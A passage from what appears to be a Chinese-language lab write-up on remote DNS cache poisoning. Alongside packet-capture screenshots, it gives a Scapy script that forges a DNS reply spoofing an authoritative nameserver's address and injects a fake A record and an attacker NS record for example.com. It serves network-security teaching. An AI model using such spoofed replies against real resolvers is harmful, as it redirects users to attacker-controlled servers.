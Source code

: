 抓包如下

![image-20220430185106179](README.assets/image-20220430185106179.png)

![image-20220430185147263](README.assets/image-20220430185147263.png)

## 构造回应报文

源地址写为我们得到的example域的正确地址：  

```python
#!/usr/bin/python
from scapy.all import *

name = "www.example.com"
domain = 'example.com'
ns = 'ns.xzc.net'
Qdsec = DNSQR(qname=name)
Anssec = DNSRR(rrname=name,type='A',rdata='1.2.3.4',ttl=259200)
NSsec = DNSRR(rrname=domain,type='NS',rdata=ns,ttl=259200)
dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, qdcount=1, ancount=1, nscount=1,
            arcount=0, qd=Qdsec, an=Anssec, ns=NSsec)
ip = IP(dst='172.17.0.3',src='199.43.135.53')
udp = UDP(dport=53,sport=33333,chksum=0)
reply = ip/udp/dns
send(reply)
```

抓包如下

![image-20220430185758212](README.assets/image-20220430185758212.png)
